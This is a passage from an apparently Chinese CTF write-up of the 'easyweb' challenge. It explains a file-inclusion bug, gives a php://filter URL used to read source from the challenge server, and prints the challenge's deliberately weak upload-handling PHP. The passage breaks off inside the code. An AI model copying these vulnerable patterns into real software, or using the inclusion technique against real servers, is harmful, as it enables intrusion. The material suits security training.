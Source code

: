 参考链接：

https://www.freebuf.com/column/170359.html



### easyweb

>Author: 这道题目出着是想理解一下渗透的流程，算比较用心地去出题，比较遗憾，因为严格意义上来说没有人解出来，准备了很多 `hint`，但感觉前面没做到，后面的提示好像也派不上用场，灵感来自空指针的一次内部赛，那个比较难。这次主要考点还是在文件上传(内部训练)，后面的渗透比较刻意地去设置，也不算太难，过了文件上传有 `hint` 都可以秒解，题目比较贴心地给你准备好了一切，都是基本操作，主要是想熟悉 `nmap` 的基本使用及内网探测与爆破。

打开网页，一个文件上传，上传图片，会将图片显示出来，然后出现了两个不知道为什么会存在的东西：两首歌的歌词，注意到 `url` 发现有文件包含，`http://47.110.130.169:10001/view.php?article=song.php`，可以利用它来包含文件🐎，但同时也可以用伪协议读源码(这里没有过滤)，提示 `flag` 在 `/flag`，如果真的在，那么伪协议就能读 `flag` 了，这题就不用做了。

`http://47.110.130.169:10001/view.php?article=php://filter/convert.Base64-encode/resource=index.php`

```php
<title>Can you bypass?</title>
I have already give you shell, this challenge is too easy.
<br>
<form action="/index.php" method="post" enctype="multipart/form-data">
    <label for="file">文件名：</label>
    <input type="file" name="upload_file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
<?php
    header('Content-type:text/html;charset=utf-8');
    function isImage($filename){
        $image_type = exif_imagetype($filename);
        switch ($image_type) {
            case IMAGETYPE_GIF:
                return "gif";
                break;
            case IMAGETYPE_JPEG:
                return "jpg";
                break;
            case IMAGETYPE_PNG:
                return "png";
                break;    
            default:
                return false;
                break;
        }
    }
    if (isset($_POST['submit'])) {
        $temp_file = $_FILES['upload_file']['tmp_name'];
        if (isImage($temp_file)) {
            $name = $_FILES['upload_file']['name'];
            $ext = substr(strrchr($name, '.'), 1);
            if (preg_match("/ph|htaccess/i", $ext)) {
                echo "illegal suffix!";
            } else {
                $ip = $_SERVER['REMOTE_ADDR'];
                $fn = md5(time());
                $dir = 'uploads/'.md5($ip);
                if(!is_dir($dir)){
                    mkdir($dir, 0777, true);
                }
                $img_path = $dir.'/'.$fn.'.'.$ext;
                if (move_uploaded_file($temp_file, $img_path)) {
                    $is_upload = true;
                } else {
                    echo '上传出错！';
                }
```